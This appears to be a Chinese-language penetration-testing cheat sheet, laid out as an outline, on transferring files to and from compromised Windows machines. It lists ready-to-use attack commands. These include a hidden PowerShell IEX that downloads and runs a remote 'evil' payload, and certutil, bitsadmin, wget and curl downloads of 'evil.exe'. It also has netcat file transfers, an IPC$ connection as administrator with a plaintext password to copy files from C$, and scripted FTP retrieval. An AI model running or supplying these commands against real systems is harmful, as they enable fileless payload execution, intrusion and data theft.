 - powershell

	- 远程下载文件保存在本地

		- powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.28.128/imag/evil.txt','evil.exe')

	- 远程执行命令

		- powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.28.128/imag/evil.txt'))"

- bitsadmin

	- bitsadmin /transfer n http://192.168.28.128/imag/evil.txt d:\test\1.txt

- certutil

	- 下载文件

		- certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt test.php

	- 删除缓存

		- certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt delete

- wget.exe

	- https://eternallybored.org/misc/wget/

		- wget -O "evil.txt" http://192.168.28.128/imag/evil.txt

- curl

	- curl -O http://192.168.28.128/imag/evil.txt

- nc

	- nc -lvp 3333 > d_evil.exe
nc ip 3333 < s_evil.exe
	- cat evil.exe | nc -lvp 3333
nc ip 3333 > evil.exe

- ipc$文件共享

	- 建立远程IPC连接

		- net use \\192.168.28.128\ipc$ /user:administrator "abc123!"

	- 复制远程文件到本地主机

		- copy \\192.168.28.128\c$\2.txt D:\test

- FTP

	- ftp xx.xx.xx.xx
username
password
get file
exit
	- echo open ip >> ftp.txt
echo username >> ftp.txt
echo password >> ftp.txt
echo get xx.rar >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
